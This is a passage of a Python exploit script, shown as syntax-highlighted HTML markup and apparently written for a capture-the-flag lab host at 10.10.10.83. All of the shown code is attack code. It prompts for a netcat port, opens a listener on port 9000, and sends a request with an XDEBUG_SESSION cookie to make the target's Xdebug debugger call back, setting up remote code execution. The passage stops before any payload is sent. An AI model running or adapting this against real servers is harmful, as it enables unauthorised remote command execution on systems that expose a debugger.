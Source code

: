 <span class="k">if</span> <span class="nf">len</span><span class="p">(</span><span class="n">sys</span><span class="p">.</span><span class="n">argv</span><span class="p">)</span> <span class="o">!=</span> <span class="mi">2</span><span class="p">:</span>
    <span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">{} [nc port]</span><span class="sh">"</span><span class="p">.</span><span class="nf">format</span><span class="p">(</span><span class="n">sys</span><span class="p">.</span><span class="n">argv</span><span class="p">[</span><span class="mi">0</span><span class="p">]))</span>
    <span class="n">sys</span><span class="p">.</span><span class="nf">exit</span><span class="p">()</span>

<span class="k">def</span> <span class="nf">get_my_ip</span><span class="p">():</span>
    <span class="n">s</span> <span class="o">=</span> <span class="n">socket</span><span class="p">.</span><span class="nf">socket</span><span class="p">(</span><span class="n">socket</span><span class="p">.</span><span class="n">AF_INET</span><span class="p">,</span> <span class="n">socket</span><span class="p">.</span><span class="n">SOCK_DGRAM</span><span class="p">)</span>
    <span class="n">s</span><span class="p">.</span><span class="nf">connect</span><span class="p">((</span><span class="sh">"</span><span class="s">10.10.10.1</span><span class="sh">"</span><span class="p">,</span> <span class="mi">80</span><span class="p">))</span>
    <span class="k">return</span> <span class="n">s</span><span class="p">.</span><span class="nf">getsockname</span><span class="p">()[</span><span class="mi">0</span><span class="p">]</span>

<span class="n">ip</span> <span class="o">=</span> <span class="nf">get_my_ip</span><span class="p">()</span>
<span class="n">port</span> <span class="o">=</span> <span class="n">sys</span><span class="p">.</span><span class="n">argv</span><span class="p">[</span><span class="mi">1</span><span class="p">]</span>

<span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">[!] Have nc listening on {}</span><span class="sh">"</span><span class="p">.</span><span class="nf">format</span><span class="p">(</span><span class="n">port</span><span class="p">))</span>

<span class="c1"># Start Listener
</span><span class="n">local_ip</span> <span class="o">=</span> <span class="sh">"</span><span class="s">0.0.0.0</span><span class="sh">"</span>
<span class="n">local_port</span> <span class="o">=</span> <span class="mi">9000</span>
<span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">[*] Starting listener on {}:{}</span><span class="sh">"</span><span class="p">.</span><span class="nf">format</span><span class="p">(</span><span class="n">local_ip</span><span class="p">,</span> <span class="n">local_port</span><span class="p">))</span>
<span class="n">s</span> <span class="o">=</span> <span class="n">socket</span><span class="p">.</span><span class="nf">socket</span><span class="p">()</span>
<span class="n">s</span><span class="p">.</span><span class="nf">bind</span><span class="p">((</span><span class="n">local_ip</span><span class="p">,</span> <span class="n">local_port</span><span class="p">))</span>
<span class="n">s</span><span class="p">.</span><span class="nf">listen</span><span class="p">(</span><span class="mi">10</span><span class="p">)</span>
<span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">[+] Listening...</span><span class="sh">"</span><span class="p">)</span>

<span class="c1"># Tip server to call back
</span><span class="nf">print</span><span class="p">(</span><span class="sh">"</span><span class="s">[*] Sending request to tip xdebug</span><span class="sh">"</span><span class="p">)</span>
<span class="k">try</span><span class="p">:</span>
    <span class="n">r</span> <span class="o">=</span> <span class="n">requests</span><span class="p">.</span><span class="nf">get</span><span class="p">(</span><span class="sh">"</span><span class="s">http://10.10.10.83/index.php</span><span class="sh">"</span><span class="p">,</span>
                 <span class="n">headers</span><span class="o">=</span><span class="p">{</span><span class="sh">"</span><span class="s">Cookie</span><span class="sh">"</span><span class="p">:</span> <span class="sh">"</span><span class="s">XDEBUG_SESSION=wpOCvcWXx5</span><span class="sh">"</span><span class="p">},</span>
                <span class="n">timeout</span><span class="o">=</span><span class="mi">2</span><span class="p">)</span>
<span class="k">except</span><span class="p">:</span>
    <span class="k">pass</span>
